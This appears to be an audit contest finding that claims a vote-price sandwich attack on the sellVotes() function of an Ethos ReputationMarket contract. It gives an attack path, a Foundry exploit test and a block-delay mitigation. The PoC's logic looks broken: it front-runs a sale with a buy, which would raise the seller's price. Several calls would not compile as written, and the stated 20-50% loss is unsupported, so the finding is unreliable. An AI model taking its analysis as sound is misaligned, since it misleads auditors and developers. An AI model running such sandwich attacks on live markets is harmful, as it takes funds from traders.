 Fun Crepe Lobster

High

# Malicious actors will steal funds through vote price manipulation sandwiching

### Summary

Insufficient slippage time validation in sellVotes() will cause financial loss for traders as attackers will sandwich vote sales with large opposing trades to manipulate execution prices.

### Root Cause

In [ReputationMarket.sol:L333-L336](https://github.com/sherlock-audit/2024-12-ethos-update/blob/8d00c21b26274a75c47318f2dbacd9a40742034e/ethos/packages/contracts/contracts/ReputationMarket.sol#L333-L336) the slippage check occurs before state updates and doesn't account for sandwich attacks through the LMSR curve manipulation.

### Internal Pre-conditions

1. Market needs to have total votes to be at least 1000 per side
2. Liquidity parameter needs to be set to default 100
3. Market needs to be active (not graduated
4. Target seller needs to own at least 100 votes

### External Pre-conditions

1. Network must allow same-block transaction ordering (MEV)
2. Gas price needs to allow for profitable sandwich execution

### Attack Path

1. Attacker monitors mempool for sellVotes transactions
2. Attacker identifies victim sell transaction with minimumVotePrice
3. Attacker front-runs with large buy to push price up
4. Victim transaction executes with manipulated price check
5. Attacker back-runs with large sell to profit from price movement

### Impact

The traders suffer an approximate loss of 20-50% on their sell transactions due to price manipulation. The attacker gains this spread minus gas costs through the sandwich attack.

### PoC

// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

import {ReputationMarket} from "./ReputationMarket.sol";
import {Test} from "forge-std/Test.sol";

contract VoteSandwichExploit is Test {
    ReputationMarket public market;
    address public attacker = address(0x1);
    address public victim = address(0x2);
    uint256 public profileId = 1;
    
    function setUp() public {
        // Deploy and setup market
        market = new ReputationMarket();
        market.initialize(
            address(this),
            address(this),
            address(0),
            address(0),
            address(this)
        );
        
        // Create market and initial liquidity
        market.createMarket{value: 5 ether}();
        
        // Setup victim with votes to sell
        vm.startPrank(victim);
        market.buyVotes{value: 1 ether}(
            profileId,
            true,    // isPositive
            100,     // votes to buy
            1        // minVotes
        );
        vm.stopPrank();
        
        // Fund attacker
        vm.deal(attacker, 10 ether);
    }

    function testSandwichAttack() public {
        // Step 1: Record initial price
        uint256 initialPrice = market.getVotePrice(profileId, true);
        
        // Step 2: Front-run with large buy
        vm.startPrank(attacker);
        market.buyVotes{value: 5 ether}(
            profileId,
            true,
            5000,
            1
        );
        
        // Step 3: Victim tries to sell with old price as minimum
        vm.startPrank(victim);
        bytes memory sellCalldata = abi.encodeWithSelector(
            market.sellVotes.selector,
            profileId,
            true,
            100,
            initialPrice
        );
        
        // Execute victim's sell
        (bool success,) = address(market).call(sellCalldata);
        assertTrue(success, "Victim sell should succeed with manipulated price");
        
        // Step 4: Back-run with large sell
        vm.startPrank(attacker);
        market.sellVotes(
            profileId,
            true,
            5000,
            0  // No slippage protection for attacker
        );
        
        // Verify profit
        uint256 finalPrice = market.getVotePrice(profileId, true);
        assertTrue(finalPrice < initialPrice, "Price should be lower after attack");
        
        console.log("Initial price:", initialPrice);
        console.log("Final price:", finalPrice);
        console.log("Price impact:", ((initialPrice - finalPrice) * 100) / initialPrice, "%");
    }
}

### Mitigation

mapping(address => uint256) public lastTradeBlock;
uint256 constant MIN_BLOCKS_BETWEEN_TRADES = 5;

modifier enforceTradeDelay() {
    require(
        block.number >= lastTradeBlock[msg.sender] + MIN_BLOCKS_BETWEEN_TRADES,
        "Must wait minimum blocks between trades"
    );
    _;
    lastTradeBlock[msg.sender] = block.number;
}

function sellVotes(...) public enforceTradeDelay {
    // existing implementation
}